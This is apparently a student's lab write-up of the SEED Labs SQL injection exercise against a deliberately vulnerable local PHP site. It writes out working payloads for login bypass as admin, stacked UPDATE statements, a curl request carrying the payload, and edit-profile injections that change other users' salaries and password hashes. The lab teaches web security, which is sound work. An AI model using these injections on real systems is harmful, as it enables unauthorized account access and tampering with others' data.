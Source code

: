 # Trabalho realizado na semana #8

<br>

# SEED Labs - SQL Injection Attack Lab

## Preparation

To prepare our systems for this lab, we followed the Environment Setup section of the guide:

1. Add the entry `10.9.0.5        www.seed-server.com` to the `/etc/hosts` file of your VM.

2. Launch the web server, using `dcup`.
   - This command must be executed in the `Labsetup` directory.

<br>

## Task 1 : Get Familiar with SQL Statements

The goal of this task is to understand the structure of the database that is being used by the web server in the next tasks.

1. Get a shell on the MySQL container.

   1. Use `dockps | grep mysql` to get the id of the container (first column).
   2. Run `docksh <id>` with the id obtained in the previous step (only the first few characters may be used).

2. Get a shell inside the database, by executing `mysql -u root -pdees`.
   
<figure>
   <img src="images/logbook7/task1/1.png" alt="Getting a shell on the MySQL container" width="50%" />
   <figcaption><strong>Fig 1. </strong>Getting a shell on the MySQL container</figcaption>
</figure>

3. In the database shell:
   
   1. Run `use sqllab_users;` to change the current database to the database named `sqllab_users`.
   2. Run `show tables;` to see a list of the tables in the current database.
   3. Run `select * from credential where name = 'Alice';` to print all of Alice's profile information.

<figure>
   <img src="images/logbook7/task1/2.png" alt="Print all of Alice's profile information" width="50%" />
   <figcaption><strong>Fig 2. </strong>Print all of Alice's profile information</figcaption>
</figure>

<br>

## Task 2 : SQL Injection Attack on SELECT Statement

The goal of this task is to exploit a SQL Injection vulnerability and use that to log in to an arbitrary user account.

First, we'll inspect the code on the server. By going to `Labsetup/image-www/Code/unsafe_home.php`, we can see the code that is used for the home page, which is vulnerable to SQL Injection.

We found the vulnerable SELECT statement and it's presented below:

<figure>
   <img src="images/logbook7/task2/1.png" alt="The vulnerable SELECT statement" width="50%" />
   <figcaption><strong>Fig 3. </strong>The vulnerable SELECT statement</figcaption>
</figure>

After finding the vulnerable statement, we did the following steps:
   
1. Looking at the PHP code shown previously, we can see that both the username and the password are injectable. As such, we will use the username since it's the first one to appear in the SQL query, which makes the attack easier to perform.

3. Determine the injection payload:

   - We want to log in with the account of the user named `admin`. We can do that by executing the query `SELECT <fields> FROM credential WHERE name = 'admin';`. In the next steps, we will show how to transform the previously shown query into this one.
  
   1. We do not need the `password` field. To remove it, we can simply comment it out (put `; -- ` before it; the space is needed). This will be placed in the field that comes before `password`, which is `name`. As such, no payload is needed for the `password` field.
   
   2. On the `username` field, we want to select the `admin` account. Furthermore, we also want to introduce the changes described in 1., which means that we must close the string as well. Since the string is opened using `'`, we will need to close it using the same character (`'`). As such, the payload for the `name` field will be `admin'; -- `.
   
   3. The resulting SELECT statement will be as follows:
        ```sql
        SELECT <fields> FROM credential WHERE name = 'admin'; -- ' and Password = '';
        ```

### 1. SQL Injection Attack from webpage

1. Connect to the website on `www.seed-server.com`, where we will be presented with a login page.

2. Fill in the login form with the following inputs:

    - Username: `admin'; -- `
    - Password: *anything you want*

<figure>
   <img src="images/logbook7/task2/web/1.png" alt="The payload for the SQL Injection attack" width="50%" />
   <figcaption><strong>Fig 4. </strong>The payload for the SQL Injection attack</figcaption>
</figure>
   
3. Submit the form.
   
<figure>
   <img src="images/logbook7/task2/web/2.png" alt="Logged in as admin, with SQL Injection" width="50%" />
   <figcaption><strong>Fig 5. </strong>Logged in as admin, with SQL Injection</figcaption>
</figure>

### 2. SQL Injection Attack from command line

`curl` is a command-line tool that allows the user to make HTTP requests to any URL. We can, therefore, send our SQL injection payload by using `curl`.

1. Open a terminal.
2. Run `curl "www.seed-server.com/unsafe_home.php?username=admin%27;%20--%20"`.
   
   - Some special characters, such as `'` and spaces need to be encoded when used in a URL. As such, we must use `%20` instead of spaces and `%27` instead of single quotes, which are the corresponding URL-encoded version of those characters.
   
<figure>
   <img src="images/logbook7/task2/curl/1.png" alt="First part of the output of curl" width="50%" />
   <img src="images/logbook7/task2/curl/2.png" alt="Second part of the output of curl" width="50%" />
   <figcaption><strong>Figs 6 and 7. </strong>HTML code of admin page, with SQL Injection and curl</figcaption>
</figure>

<br>

### 3. Append a new SQL statement

To execute multiple statements, we can simply add the new statement after the `;` and before the ` -- ` in the username.

As such, if we want to change Ted's salary to 1234, we will need to execute the statement `UPDATE credential SET salary = 1234 WHERE name = 'Ted';`.

This means that the payload will be as follows:

- Username: `admin'; UPDATE credential SET salary = 1234 WHERE name = 'Ted'; -- `
- Password: *anything you want*

If we submit this payload on the webpage, however, we will get an error.

<figure>
   <img src="images/logbook7/task2/multistatement/1.png" alt="Error after submitting the previous payload" width="50%" />
   <figcaption><strong>Fig 8. </strong>Error after submitting the previous payload</figcaption>
</figure>

This error happens because the server is configured to only execute a single statement per query. To change this, we will need to edit the `unsafe_home.php` file, as shown below.

<figure>
   <img src="images/logbook7/task2/multistatement/2.png" alt="Code after changes have been applied" width="50%" />
   <figcaption><strong>Fig 9. </strong>Code after changes have been applied (lines 75 - 78)</figcaption>
</figure>

With these changes, the server stops using
```php
$conn->query($sql);
```
and instead uses
```php
$conn->multi_query($sql);
```

`multi_query` allows the execution of multiple semicolon-separated statements in the same query, whereas `query` doesn't.

With these changes applied, we need to rebuild the server using `dcup --build`.

After the server is back online, if we submit the payload again, the same user details are shown. This happens because the SELECT statement comes before the UPDATE statement, which means that the changes won't be reflected on the SELECT statement.

To fix this, we can simply reload the page, which will in turn execute the query again and return the updated user details, as shown below.

<figure>
   <img src="images/logbook7/task2/multistatement/3.png" alt="User details after resubmitting the SQL Injection payload" width="50%" />
   <figcaption><strong>Fig 10. </strong>User details after resubmitting the SQL Injection payload</figcaption>
</figure>

As we can see, Ted's salary has been changed to 1234.

<br>

## Task 3 : SQL Injection Attack on UPDATE Statement

The goal of this task is to explore a SQL Injection vulnerability in an UPDATE statement, which will let us modify the data present in the database.

To avoid having previous tasks interfere with this one, we reset the web server by executing the following commands in the `Labsetup` directory:

1. Run `dcdown` to shut down the containers.

2. Run `git restore .` to remove any modifications we have done to the Lab code.

   - This is important because we modified the server's code in the previous task.

3. Run `sudo rm -rf mysql_data`.

   - This will delete all data from the database container. This is important since we have modified data in the previous task and, by executing this command, we will be resetting the database to its original state.
   
4. Run `dcup --build` to start the containers again.

   - Because of the `--build` flag, this command will also check if any containers need to be rebuilt, in particular, the `www` container.

After the containers are reset, we can take a look at the task.
In the lab, we are given a piece of vulnerable code, along with a SQL statement:

```php
$hashed_pwd = sha1($input_pwd);

$sql = "UPDATE credential SET
   nickname='$input_nickname',
   email='$input_email',
   address='$input_address',
   Password='$hashed_pwd',
   PhoneNumber='$input_phonenumber'
   WHERE ID=$id;";
   
$conn->query($sql);
```

As we have seen in previous tasks, this code is vulnerable to SQL Injection because it concatenates strings that have not been sanitized with a SQL query that is passed as-is to the database.

### 1. Modify your own salary

1. Log into Alice's account

   - We want to log in as Alice and change her salary through the edit profile form. To log in, we use the username `Alice` and password `seedalice`. Once inside the account, we navigate to the `Edit Profile` page by clicking on the button on the navbar at the top of the page.

2. Determine the payload injection:

   - The column we want to change is `salary`, therefore we will need something like `salary = 123456` in our payload. 
   
   - We will use the `PhoneNumber` field to inject our payload. Any field could be used, as long as it is included as-is in the resulting SQL query. 
   
   - One possible query would be as follows:
   
      ```sql
      UPDATE credential SET
         nickname='',
         ...
         PhoneNumber='', salary='123456'
         WHERE ID=10000;
      ```

   - In this case, it isn't a problem that `salary` is a string as MySQL will automatically convert it to the appropriate type.
      
   - Therefore one possible payload is `', salary='123456`.
   
3. Submit the "Edit Profile" form with the payload on the phone number field.

As we can see, Alice's salary has been changed to 123456.

### 2. Modify other people’s salary

1. Log into any account. We will log in to Alice's account.

2. Determine the injection payload:

      - This time we want to change someone else's salary, therefore, we will need to change the `WHERE ID=...` part in the resulting query, as this is currently being filled with our ID and, as such, will update our own information. This will need to be overwritten with a condition that only applies to Boby.
      
      - The new condition could be, for instance, `WHERE Name='Bobby'`. However, because we don't want to trigger a syntax error (caused by the original `WHERE ID=...` clause still being present), we will need to comment out everything that comes after that, using `; -- `.

      - Our final query would look something like

         ```sql
         UPDATE credential SET
            nickname='',
            ...
            PhoneNumber='', salary='1' WHERE Name='Boby'; -- ' WHERE ID=10000;
         ```

      - In conclusion, our final payload will be `', salary='1' WHERE Name='Boby'; -- `.

3. Submit the "Edit Profile" form with the payload on the phone number field.

4. Log out of the website.

5. Log in with Boby's credentials.

   - Username: `Boby`
   - Password: `seedboby`

As we can see, Bobby's salary has been changed to 1.

### 3. Modify other people’s password

1. Log into an account. We will log in to Alice's account.

2. Determine the payload:

      - This task is generally the same as the previous one, the only difference is that the database stores a hash instead of a password, therefore we must hash our new password before inserting it.

      - There are two ways of accomplishing that goal:

         1. Since the new password comes before the phone number in the query, we can simply place the new password in plain text in the password field of the form (it will be hashed by the server) and the rest of the injected SQL in the phone number field of the form. This is useful if we don't what hashing algorithm is being used by the server, but we need to know (or, at least, guess) how the query is organized.

         2. We can also use the same payload as in task 3.2 and replace `salary='1'` with `Password='.<sha1 of password>'`. The downside here is that we need to know the hashing algorithm. Since we know that, we will use this approach.

      - We want to change Boby's password to `you_wont_access_your_account_again_bobby`. Let's hash the password with SHA1: `2409cc93fb815f9da0947627730f3d006aefb4f2`. 

      - Our final query would look something like

         ```sql
         UPDATE credential SET
            nickname='',
            ...,
            Password='',
            PhoneNumber='', Password='2409cc93fb815f9da0947627730f3d006aefb4f2' WHERE Name='Boby'; -- ' WHERE ID=10000;
         ```
      
      - Therefore, our payload will be `', Password='2409cc93fb815f9da0947627730f3d006aefb4f2' WHERE Name='Boby'; -- `.

3. Submit the "Edit Profile" form with the payload on the phone number field.

4. Log out of the website.

5. Log in with Boby's new credentials.

   - Username: `Boby`
   - Password: `you_wont_access_your_account_again_bobby`

As we can see, Bobby's password has been changed.
